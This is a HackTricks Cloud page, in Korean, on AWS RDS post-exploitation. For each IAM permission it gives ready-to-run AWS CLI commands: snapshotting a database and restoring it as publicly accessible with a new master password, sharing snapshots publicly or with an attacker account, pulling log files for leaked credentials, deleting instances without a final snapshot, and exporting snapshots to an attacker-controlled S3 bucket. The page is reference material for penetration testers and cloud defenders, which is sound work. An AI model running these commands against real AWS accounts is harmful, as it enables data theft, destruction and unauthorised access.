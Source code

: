 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

공격자가 충분한 권한을 가지고 있다면, 그는 DB의 스냅샷을 생성하여 **DB를 공개적으로 접근 가능**하게 만들고, 그 스냅샷에서 공개적으로 접근 가능한 DB를 생성할 수 있습니다.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

이 권한을 가진 공격자는 **DB의 스냅샷을 생성**하고 이를 **공개적으로** **이용 가능**하게 만들 수 있습니다. 그런 다음, 그는 자신의 계정에서 해당 스냅샷으로 DB를 생성할 수 있습니다.

공격자가 **`rds:CreateDBSnapshot`** 권한이 없더라도, 여전히 **다른** 생성된 스냅샷을 **공개**로 만들 수 있습니다.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 권한을 가진 공격자는 **RDS 인스턴스의 로그 파일의 일부를 다운로드**할 수 있습니다. 민감한 데이터나 접근 자격 증명이 우연히 기록된 경우, 공격자는 이 정보를 사용하여 권한을 상승시키거나 무단 작업을 수행할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**잠재적 영향**: 유출된 자격 증명을 사용하여 민감한 정보에 접근하거나 무단 작업을 수행할 수 있습니다.

### `rds:DeleteDBInstance`

이 권한을 가진 공격자는 **기존 RDS 인스턴스를 DoS**할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**잠재적 영향**: 기존 RDS 인스턴스 삭제 및 데이터 손실 가능성.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

이 권한을 가진 공격자는 **RDS 인스턴스 스냅샷을 S3 버킷으로 내보낼 수 있습니다**. 공격자가 대상 S3 버킷을 제어하는 경우, 내보낸 스냅샷 내의 민감한 데이터에 접근할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**잠재적 영향**: 내보낸 스냅샷의 민감한 데이터에 대한 접근.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
